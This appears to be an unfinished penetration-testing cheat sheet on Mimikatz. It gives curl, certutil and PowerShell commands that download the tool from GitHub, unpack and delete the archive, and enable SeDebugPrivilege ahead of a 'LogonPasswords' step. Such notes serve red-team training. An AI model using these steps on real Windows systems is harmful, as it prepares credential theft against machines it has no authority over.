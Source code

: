 # Mimikatz

## 01 - Installation

### 1.1 - Command Prompt

Download the archive.

```
C:\> curl.exe -O https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip

C:\> certutil.exe -urlcache -split -f https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip mimikatz_trunk.zip
```

Extract it then delete it.

```
C:\> tar.exe xf .\mimikatz_trunk.zip
del /f .\mimikatz_trunk.zip
```

### 1.2 - PowerShell

```
PS C:\> Invoke-WebRequest -UseBasicParsing -Uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -OutFile mimikatz_trunk.zip
Expand-Archive .\mimikatz_trunk.zip
Remove-Item -Force .\mimikatz_trunk.zip
```

## 02 - Help Menu

```
C:\> cd .\mimikatz_trunk\x64
.\mimikatz.exe
```

TODO: Copy and paste the help menu for mimikatz

```
mimikatz # ::
```

## 03 - Usage

### 3.1 - LogonPasswords

Make sure the `SeDebugPrivilege` is enabled

```
C:\> whoami.exe /priv
Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Enabled

mimikatz # privilege::debug
Privilege '20' OK
```

